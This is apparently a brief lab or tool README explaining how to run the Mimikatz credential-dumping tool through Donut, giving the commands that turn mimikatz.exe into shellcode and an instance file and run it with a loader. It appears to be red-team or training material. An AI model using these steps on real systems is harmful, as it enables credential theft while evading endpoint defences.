 We will run Mimikatz interactively through Donut.

Use the debug and 64-bit versions of donut and loader that are in this directory.

Generate the shellcode and instance file:

```
.\donut.exe -f .\mimikatz_trunk\x64\mimikatz.exe -a 2
```


Run the instance through the loader.
```
.\loader.exe .\instance
```